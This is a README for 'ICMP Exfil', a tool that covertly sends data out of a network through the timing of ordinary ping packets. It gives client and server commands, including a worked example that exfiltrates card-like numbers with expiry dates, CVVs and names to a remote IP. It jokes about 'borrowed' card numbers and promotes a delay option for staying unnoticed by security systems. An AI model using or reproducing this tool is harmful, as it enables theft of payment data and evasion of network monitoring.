 # ICMP Exfil

ICMP Exfil allows you to transmit data via valid ICMP packets. You use the client script to pass in data you wish to exfiltrate, then on the device you're transmitting to you run the server. Anyone watching-- human or security system-- will just see valid ICMP packets, there's nothing malicious about the structure of the packets. Your data isn't hidden inside the ICMP packets either, so looking at the packet doesn't tell you what was exfiltrated. 

# Author
Martino Jones, [martinojones.com](https://martinojones.com).

# ASCII

Right now, the only thing I've added support for is ASCII characters. You will be able to exfiltrate anything that can be represented in ASCII characters (e.g. letters and numbers). For example: you borrowed some cool 16 digit numbers, well you'd use the client script to pass those numbers to your server by doing ```./ping.py --ascii "4111111111111111"```.

# Sending to server

You have two options for setting the server to send to. You can either use the **-\-ip** or you can set the default IP in the script called **ipToPing**.

# Wait

If you want to be a little more patient, and make it harder for people to notice you're exfiltrating data you can use **--wait** to specify the amount of min time + the time that's supposed to pass for the data to transfer. This is still being worked on... so you'll need to do this conversion yourself, but shouldn't take long for me to add... also doesn't matter too much since most people and security systems don't even detect this yet. 

# Verbose

If you would like to see the pings going through you can use the **-\-show**.

# Start/Stop Server

When you want to start the server you just do ```sudo python3 server.py```. You don't need to do anything else. When you're done, you just need to do **Control+C**. Right now the server needs work, it needs to map the input based on who they recived the data from, right now I only have it tested with one client pinging the server, this of course needs to be tuned. The groundwork is already there, just need to get the reset put together. 
# Example
I found a database full of these cool 16 digit numbers, I need to save them for futher research so I save them to a file called **file**:
**Command**:```./ping.py --ip 1.2.3.4 --asciiFile file```
**File Content**: ```4587965312457852 01/15 456 Martino Jones | 4567965382457452 03/16 236 Martino Joe```
**Encoded Data**: ```['0110100', '0110101', '0111000', '0110111', '0111001', '0110110', '0110101', '0110011', '0110001', '0110010', '0110100', '0110101', '0110111', '0111000', '0110101', '0110010', '0100000', '0110000', '0110001', '0101111', '0110001', '0110101', '0100000', '0110100', '0110101', '0110110', '0100000', '1001101', '1100001', '1110010', '1110100', '1101001', '1101110', '1101111', '0100000', '1001010', '1101111', '1101110', '1100101', '1110011', '0100000', '1111100', '0100000', '0110100', '0110101', '0110110', '0110111', '0111001', '0110110', '0110101', '0110011', '0111000', '0110010', '0110100', '0110101', '0110111', '0110100', '0110101', '0110010', '0100000', '0110000', '0110011', '0101111', '0110001', '0110110', '0100000', '0110010', '0110011', '0110110', '0100000', '1001101', '1100001', '1110010', '1110100', '1101001', '1101110', '1101111', '0100000', '1001010', '1101111', '1100101', '0001010']```
**Server**:
```
Calculating offsets


4 5 8 7 9 6 5 3 1 2 4 5 7 8 5 2   0 1 / 1 5   4 5 6   M a r t i n o   J o n e s   |   4 5 6 7 9 6 5 3 8 2 4 5 7 4 5 2   0 3 / 1 6   2 3 6   M a r t i n o   J o e 
```
# TODO
If you would like to help there are a number of things I still need to add:
- Transmit Binary files, can just read in the file as binary and won't need to encode.
- Allow passing in the server the offset, in case you want to make the window bigger or smaller, especially useful over very poor connections.
- Print mapping of IP to DATA when done.
- Allow quiet server.
- Allow showing data as it comes in, a little more tricky, but just requires some on the fly offset calculations.
- More things as they come to mind ;-)